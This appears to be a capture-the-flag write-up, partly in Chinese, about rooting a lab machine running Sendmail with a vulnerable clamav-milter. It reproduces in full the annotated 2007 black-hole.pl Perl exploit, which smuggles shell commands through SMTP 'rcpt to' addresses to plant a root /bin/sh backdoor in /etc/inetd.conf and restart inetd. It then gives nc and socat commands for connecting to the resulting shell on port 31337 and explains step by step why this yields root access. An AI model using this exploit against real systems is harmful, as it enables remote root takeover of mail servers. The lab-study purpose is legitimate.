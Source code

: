 - **_Given that the challenge is called “ClamAV,” we choose to use searchsploit against it. What we discover is as follows:_**
- ALWAYS USE searchsploit against name


- Sendmail 是一个广泛使用的邮件传输代理（MTA）。
- clamav-milter 是 ClamAV 杀毒软件的邮件过滤器，用于扫描邮件中的病毒和恶意代码。
- 低版本的 clamav-milter（< 0.91.2）在处理邮件时存在安全缺陷。

2. 漏洞原理：

- 攻击者可以通过发送特制的邮件，利用 clamav-milter 处理邮件时的输入验证缺陷。
- 该缺陷允许攻击者注入恶意命令，并在邮件服务器上以 clamav-milter 的权限执行。
- 由于 Sendmail 和 clamav-milter 通常运行在高权限账户（如 root 或 mail 用户），攻击者能够远程执行任意命令。

```Perl
### black-hole.pl
### Sendmail w/ clamav-milter Remote Root Exploit
### Copyright (c) 2007 Eliteboy
########################################################
use IO::Socket; # Import the IO::Socket module for network communication.

print "Sendmail w/ clamav-milter Remote Root Exploit\n";
print "Copyright (C) 2007 Eliteboy\n";

if ($\#ARGV != 0) { # Check if exactly one command-line argument (the target host) is provided.
    print "Give me a host to connect.\n"; # If not, print an error message and exit.
    exit;
}

print "Attacking $ARGV[0]...\n"; # Print a message indicating the target host.

$sock = IO::Socket::INET->new( # Create a new TCP socket connection to the target host.
    PeerAddr => $ARGV[0], # The target host's IP address or hostname.
    PeerPort => '25',    # The SMTP port (25).
    Proto    => 'tcp'      # Use the TCP protocol.
);

print $sock "ehlo you\r\n"; # Send the EHLO command to initiate an extended SMTP session.
print $sock "mail from: <>\r\n"; # Send the MAIL FROM command to specify the sender (empty sender).
# The following two lines contain the exploit:
print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n"; # Inject a command that adds a backdoor to inetd.conf.
# This line attempts to add a line to /etc/inetd.conf that launches a root shell on port 31337.
print $sock "rcpt to: <nobody+\"|/etc/init.d/inetd restart\"@localhost>\r\n"; # Inject a command to restart inetd, loading the backdoor.
# This line attempts to restart the inetd service so that the backdoor takes effect.
print $sock "data\r\n.\r\nquit\r\n"; # Send the DATA command, followed by a dot (.) to indicate the end of the message, and QUIT to close the connection.

while (<$sock>) { # Read and print the server's responses.
    print;
}

# milw0rm.com [2007-12-21] # Source of the exploit (milw0rm was a vulnerability database).
```

nc 192.168.146.42 31337

  

If the `black-hole.pl` exploit is successful against a vulnerable Sendmail/clamav-milter setup, and you then use `nc 192.168.146.42 31337`, you get a shell because of the following sequence of events:

1. **Exploit Execution:**
    - The Perl script injects a command into the target system's `/etc/inetd.conf` file.
    - That injected command tells `inetd` to listen on port 31337.
    - When a connection is made to that port, `inetd` is configured to execute `/bin/sh -i`.
    - The script also restarts the `inetd` service, so it re-reads its configuration file, thus activating the malicious configuration.
2. `**inetd**` **Listening:**
    - After the script runs, `inetd` is actively listening on port 31337.
3. `**nc**` **Connection:**
    - When you run `nc 192.168.146.42 31337`, you are establishing a TCP connection to port 31337 of the target system (192.168.146.42).
4. **Shell Execution:**
    - `inetd` detects the incoming connection.
    - As configured by the exploit, `inetd` executes `/bin/sh -i`.
    - `/bin/sh -i` starts an interactive shell.
    - The standard input and output of this shell are tied to the TCP connection that you established with `nc`.
5. **Interactive Shell:**
    - Therefore, anything you type into your `nc` terminal is sent to the shell on the remote system.
    - Any output from the remote shell is sent back to your `nc` terminal.
    - This gives you a remote, interactive root shell on the target system.

**In essence:**

- The exploit sets up a backdoor.
- `nc` connects to the backdoor.
- The backdoor launches a shell, and connect it to your nc session.

This is a classic example of how a remote command injection vulnerability can be used to gain complete control over a system.

  

```Perl
socat TCP:192.168.146.42:31337 -
or nc 92.168.146.42 31337
```